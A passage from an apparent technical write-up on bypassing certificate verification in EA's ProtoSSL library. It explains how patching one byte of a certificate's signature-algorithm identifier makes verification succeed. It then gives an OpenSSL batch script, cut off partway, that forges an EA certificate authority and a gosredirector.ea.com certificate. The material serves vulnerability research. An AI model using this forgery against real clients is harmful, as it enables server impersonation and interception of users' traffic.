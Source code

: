 We can see that first 8 bytes { 0x2a, 0x86, 0x48, 0x86, 0xf7, 0x0d, 0x01, 0x01 } are equal for all of them. The only difference is the last byte.

So if we have certificate with **ASN_OBJ_RSA_PKCS_MD2**, **ASN_OBJ_RSA_PKCS_MD5** or **ASN_OBJ_RSA_PKCS_SHA1** signature type we can change that with **ASN_OBJ_RSA_PKCS_KEY** by changing the last byte in the pattern.

* MD2:  0x02 -> 0x01
* MD5:  0x04 -> 0x01
* SHA1: 0x05 -> 0x01

Once we set **algorithmIdentifier** to be **ASN_OBJ_RSA_PKCS_KEY** then when the ProtoSSL client will parse the certificate, then the default block will run in the switch statement which will set certificate hash size to 0 and as a result the certificate verification will be successful!
If you want to see how to create such certificate, read the next part.

### Part 3: Creating the fake certificate

This is an example for creating "gosredirector.ea.com" certificate (keep in mind that you have to set the right values for your Issuer and Subject in order to make it work, otherwise the certificate verification will fail).

I will be using OpenSSL to create the certificate. [You can also create such certificate using C#](https://github.com/valters-tomsons/arcadia/blob/main/src/server/Fesl/ProtoSslCertGenerator.cs) (by [@valters-tomsons](https://github.com/valters-tomsons)).

```bat
@echo off

rem Current Directory
set cdir=D:\fakeCert

rem Certificate Authority name
set CA_NAME=OTG3

rem Certificate name
set C_NAME=gosredirector

rem Modified der file name, that will be used later
set MOD_NAME=gosredirector_mod

rem Setting current directory to OpenSSL so we can use it
C:
cd C:\Program Files (x86)\OpenSSL-Win32\bin

rem Create private key for the Certificate Authority
openssl genrsa -aes128 -out %cdir%\%CA_NAME%.key.pem -passout pass:123456 1024
openssl rsa -in %cdir%\%CA_NAME%.key.pem -out %cdir%\%CA_NAME%.key.pem -passin pass:123456

rem Create the certificate of the Certificate Authority
openssl req -new -md5 -x509 -days 28124 -key %cdir%\%CA_NAME%.key.pem -out %cdir%\%CA_NAME%.crt -subj "/OU=Online Technology Group/O=Electronic Arts, Inc./L=Redwood City/ST=California/C=US/CN=OTG3 Certificate Authority"

rem ------------Certificate Authority created, now we can create Certificate------------

rem Create private key for the Certificate
openssl genrsa -aes128 -out %cdir%\%C_NAME%.key.pem -passout pass:123456 1024
openssl rsa -in %cdir%\%C_NAME%.key.pem -out %cdir%\%C_NAME%.key.pem -passin pass:123456

rem Create certificate signing request of the certificate
openssl req -new -key %cdir%\%C_NAME%.key.pem -out %cdir%\%C_NAME%.csr -subj "/CN=gosredirector.ea.com/OU=Global Online Studio/O=Electronic Arts, Inc./ST=California/C=US"

rem Create the certificate
```